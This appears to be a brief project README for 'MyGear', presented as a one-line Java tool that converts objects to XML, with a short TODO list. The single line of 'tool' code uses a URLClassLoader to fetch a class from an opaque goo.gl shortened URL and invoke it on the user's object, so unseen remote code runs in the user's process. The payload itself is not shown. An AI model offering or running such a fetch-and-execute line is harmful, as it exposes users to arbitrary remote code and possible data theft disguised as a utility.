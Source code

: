 # MyGear
One line tool for Object->XML transformation

new java.net.URLClassLoader(new java.net.URL[] { new java.net.URL("http://goo.gl/nDOuDG") }).loadClass("p.C").getMethod("m", Object.class).invoke(null, >>>Insert Object here<<<);

TODO:
-Higher support for synthetic fields
-Json support
-Arguments handling
-Output to file
-Select encoding